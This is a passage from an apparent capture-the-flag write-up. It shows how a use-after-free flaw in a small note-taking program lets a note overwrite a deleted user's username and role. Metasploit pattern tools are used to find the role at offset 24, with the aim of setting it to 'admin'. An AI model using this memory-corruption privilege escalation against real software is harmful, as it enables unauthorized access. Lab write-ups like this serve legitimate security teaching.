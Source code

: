 I created a user, and then deleted it. Then I'll move on to creating a
note:



    Write your note:
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA



Now when I view my user (`2`), it's overwritten:



    Your choice: 2


    Username: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
    Role: AAAAAAAAAAAAAAA



My guess here is that either these are stored on the stack in fixed
buffers that are overflowable, or they are on the heap and the username
pointer is not-nulled when the buffer is free. So if my note is too long
and not checked, it overwrites into the username and role.

This doesn't happen if the user isn't deleted, so there must be some
check for an active user before allowing the write.

#### Exploit

To understand where exactly the overflow is happening, I'll use the
`pattern_create` utility from Metasploit:



    oxdf@hacky$ pattern_create -l 30
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9



I'll start the program, create a user, delete the user, and then create
a note with that pattern as the body. Then on viewing the user data:



    Username: Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9
    Role: Aa8Aa9



The username now matches the note exactly! And the roles starts 24 bytes
in:



    oxdf@hacky$ pattern_offset -q Aa0A
    [*] Exact match at offset 0
    oxdf@hacky$ pattern_offset -q Aa8A
    [*] Exact match at offset 24



To get admin, I'll again delete the user (`3`), then add a note with 24
bytes of anything, and then "admin":

